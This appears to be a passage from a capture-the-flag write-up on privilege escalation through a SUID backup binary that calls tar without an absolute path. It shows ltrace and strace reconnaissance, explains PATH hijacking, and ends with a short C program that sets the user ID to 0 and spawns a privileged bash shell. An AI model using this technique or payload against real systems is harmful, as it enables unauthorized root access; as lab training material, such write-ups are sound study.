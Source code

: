![image.png](image%2024.png)

## Privilege Escalation

We remember from earlier we had non-standard SUID binary:

![image.png](image%2025.png)

We don’t have write access on a binary.

```bash
ltrace /usr/bin/pandora_backup
```

It is trying to perform some backup operation;

![image.png](image%2026.png)

```bash
strace -v -f -e execve /usr/bin/pandora_backup 2>&1 | grep exec
```

![image.png](image%2027.png)

If bash would have been of version `Bash <4.2-048` we could abuse Bash Shell Features by creating a function with the same name as service and export it and `PS4` variable cannot be used in debugging mode to execute commands.

[Abusing shell features for privilege escalation](https://security.stackexchange.com/questions/263323/abusing-shell-feature-for-privilege-escalation)

Binary runs `tar` command without an absolute path and we see that it inherits `PATH` variable from the running user, so we can change PATH variable and prepend our directory where malicious file is written with the same name as the original command or service.

![image.png](image%2028.png)

```bash
echo $PATH
```

![image.png](image%2029.png)

![image.png](image%2030.png)

We see that it inherits environment variables of a current user that means it inherits `PATH` variable from the current user too, so we can change `PATH` variable and prepend our directory where malicious file is written with the same name as the original command or service.

Create a malicious service that will act  as the original one

```c
int main() {
setuid(0);
system("/bin/bash -p");
}
```
